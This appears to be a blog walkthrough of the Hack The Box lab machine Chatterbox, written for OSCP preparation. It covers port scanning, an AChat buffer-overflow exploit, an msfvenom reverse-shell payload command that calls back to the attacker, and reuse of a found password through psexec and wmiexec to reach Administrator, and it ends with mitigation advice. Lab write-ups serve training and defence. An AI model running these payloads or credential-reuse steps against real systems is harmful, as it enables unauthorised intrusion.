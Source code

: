 ```yaml
---
title: Chatterbox
date: 2025-04-23
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, BOF, weak-creds-privesc] 
image: chatterbox.png
media_subpath: /assets/img/posts/2025-04-23-chatterboxHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Medium Windows box Chatterbox. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check first 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```
![image.png](nmap.png)

## Services

### Port 139/445

**Windows 7 Professional** 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

```bash
smbclient -L //$IP/ -N
```

![image.png](image%202.png)

```bash
enum4linux $IP
```

**No result**

### Port 9256

**AChat chat system**

I don’t honestly know how to enumerate and how to do foot printing for this service that’s why I am gonna search for it. I found this exploit:

[Github](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/36025&ved=2ahUKEwjWx_-qgu6MAxXHxAIHHfFnKuMQFnoECCgQAQ&usg=AOvVaw2T57YwIcTiH4gJzYVC2l8o)

[https://github.com/mpgn/AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

## Web

### Port 9255

AChat chat system httpd

**I couldn’t access the website.**

## Exploitation

[Github](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/36025&ved=2ahUKEwjWx_-qgu6MAxXHxAIHHfFnKuMQFnoECCgQAQ&usg=AOvVaw2T57YwIcTiH4gJzYVC2l8o)

[https://github.com/mpgn/AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

![image.png](image%203.png)

I made a shellcode from bash script:

```bash
bash AChat_Payload.sh
```

I entered required values:

![image.png](image%204.png)

After that I changed shellcode in python exploit and changed server address to my target box address, then I run the exploit:

```bash
python AChat_Exploit.py
```

I got a connection back:

![image.png](image%205.png)

I was just losing my shell, so I decided to look at the bash script internals, I saw it is using meterpreter shell, so let’s change it to general shell.

```bash
cp AChat_Payload.sh payload.sh
```

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=$LHOST LPORT=$LPORT exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

```

![image.png](image%206.png)

And I got a connection:

![image.png](image%207.png)

## Privilege Escalation

- **OSCP Checklist**
    
    https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/
    
    - [ ]  Situational Awareness 
    - [ ]  SeImpersonatePrivilege 
    - [ ]  SeBackupPrivilege 
    - [ ]  SeDebugPrivilege
    - [ ]  SeRestorePrivilege
    - [ ]  SeTakeOwnershipPrivilege 
    - [ ]  SeManageVolumePrivilege
    - [ ]  SeMachineAccountPrivilege
    - [ ]  [Full Privileges](https://itm4n.github.io/localservice-privileges/?source=post_page-----b95d3146cfe9---------------------------------------)
    - [ ]  [FullPowers](https://github.com/itm4n/FullPowers)
    - [ ]  PowerShell History(Transcription, Script Logging)
    - [ ]  Sensitive Files
    - [ ]  Insecure Service Executables
    - [ ]  binpath 
    - [ ]  DLL hijacking
    - [ ]  Unquoted Service Path
    - [ ]  Scheduled Tasks
    - [ ]  Application-based exploits
    - [ ]  [Detailed Paper about other privileges](https://github.com/hatRiot/token-priv)
    - [ ]  Kernel Exploits
    - [ ]  When you're on a Windows box make sure to check the root directory of the local drive volume, each user directory as well as their Desktop and Documents folders, the Program Files folder (usually the x86 one), as well as their PowerShell history if you want to be extra thorough. Do these before using something like winPEAS to save time if you end up finding a config file or script with credentials in it.
    
    ---
    
    [Privileged File Write EOP](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)
    

**I have done first some manual enumeration:**

![image.png](image%208.png)

**I run winPEASany.exe:**

![alfred](image%209.png)

alfred

![It is run with alfred user](image%2010.png)

It is run in the context of alfred user

![image.png](image%2011.png)

As I have found one password I am gonna try it for the Administrator user:

```bash
sudo nxc smb $IP -u Administrator -d . -p Welcome1!
```

![image.png](image%2012.png)

And it works !

Use psexec.py  to authenticate:

```bash
psexec.py Administrator:'Welcome1!'@10.10.10.74
```

![image.png](image%2013.png)



> Note: When running winPEAS I have noticed that Alfred had `AllAccess` on Administrator folders, that’s also a sign that Alfred is administrator he is just using two accounts on the machine.
{: .prompt-warning }


Ridiculously I cannot read `root.txt` as NT Authority\System.



> The `root.txt` file could have its **NTFS permissions explicitly denying access to SYSTEM** or only allowing access to `Administrator`. This is a deliberate CTF trick to make you escalate *context*, not just privilege.
{: .prompt-info }


I am gonna try to login as Administrator explicitly using not psexec but wmiexec as psexec automatically escalates privileges to nt authority\system.

```bash
wmiexec.py Administrator:'Welcome1!'@10.10.10.74
```

![image.png](image%2014.png)

Now we can read `root.txt`:

![image.png](image%2015.png)

## Mitigation

- **Patch Vulnerable Software**: The Achat application contains a known buffer overflow vulnerability. It should be removed or updated to a secure version. Legacy or unmaintained software should never be exposed to untrusted networks.
- **Disable Autologon**: Storing plaintext credentials in the registry (under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`) poses a serious risk. Autologon should be disabled, and sensitive credentials should never be stored in plaintext.
- **Least Privilege Enforcement**: The user `Alfred` had administrative rights, which allowed privilege escalation. Follow the principle of least privilege by only assigning administrative rights when strictly necessary.
- **Use of Credential Guard and LSA Protection**: Enable Credential Guard and LSA Protection on Windows systems to reduce the risk of credential theft via tools like Mimikatz or winPEAS.
